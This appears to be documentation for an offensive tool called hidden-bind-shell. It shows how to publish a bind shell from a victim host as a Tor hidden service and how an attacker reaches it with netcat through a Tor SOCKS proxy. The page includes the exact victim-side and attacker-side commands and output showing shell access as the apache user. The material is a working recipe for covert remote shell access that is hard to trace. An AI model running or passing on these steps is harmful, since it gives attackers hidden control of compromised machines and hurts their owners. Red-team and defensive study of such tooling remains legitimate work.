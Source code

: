 # Multi-shell access with hidden-bind-shell

In order to get a bind shell served by Victim1 on the Tor network, we will use **hidden-bind-shell** as follows. As shown in the following illustration, the victim publish a Hidden Server so that any connection will serve a shell.

{% hint style="danger" %}
When the bind shell is publish, any access will be replied with a shell. **Use with CAUTION!**
{% endhint %}

![Hidden Service as Bind Shell](../.gitbook/assets/image.png)

## 1. Hidden Service for bind shell

In order to get a bind shell served by Victim1, we will use **hidden-bind-shell**. We need to specify the hidden service port with **-hiddensrvport** parameter and the datadir with **-data-dir** parameter.

```text
[victim1]$ ./hidden-bind-shell -data-dir /tmp/datadir/ -hiddensrvport 1234
...
Bind shell is listening on hgnzi6j3rqog6yew.onion:1234
```

{% hint style="warning" %}
Using **-data-dir** parameter is specially important here. It will contain the keys for the Hidden Service so that the onion address doesn't change. If not specified, each execution will create a different Hidden Service.
{% endhint %}

## 2. Connect to the bind shell

Now that the Hidden Service is listening, the attacker will attempt to gain a shell:

{% hint style="info" %}
Note that the Tor instance proxy must be running so that the traffix is rooted to Tor network.
{% endhint %}

```text
[attacker]$ alias nctor='nc --proxy 127.0.0.1:9050 --proxy-type socks5'
[attacker]$ nctor -v hgnzi6j3rqog6yew.onion 1234
...
id
uid=48(apache) gid=48(apache) groups=48(apache)
```

